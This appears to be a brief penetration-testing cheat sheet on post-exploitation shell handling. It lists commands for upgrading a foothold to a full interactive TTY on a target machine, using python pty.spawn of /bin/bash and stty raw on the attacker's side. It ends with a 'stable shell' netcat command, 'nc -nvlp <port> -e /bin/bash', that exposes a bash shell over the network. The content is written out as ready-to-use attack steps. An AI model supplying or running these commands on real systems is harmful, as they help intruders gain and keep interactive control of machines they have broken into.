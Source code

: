 <h3>python tty</h3>
`python3 -c 'import pty; pty.spawn("/bin/bash")'`


<h5>target</h5>
`python -c 'import pty;pty.spawn("/bin/bash")'`
`export TERM=xterm`
`CTRL+Z`

<h5>attacker
</h5>`stty raw -echo; fg`
`reset + enter`   **(fix terminal)`

![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)


<h3>stable shell</h3>
`rlwrap nc -nvlp <port> -e /bin/bash`
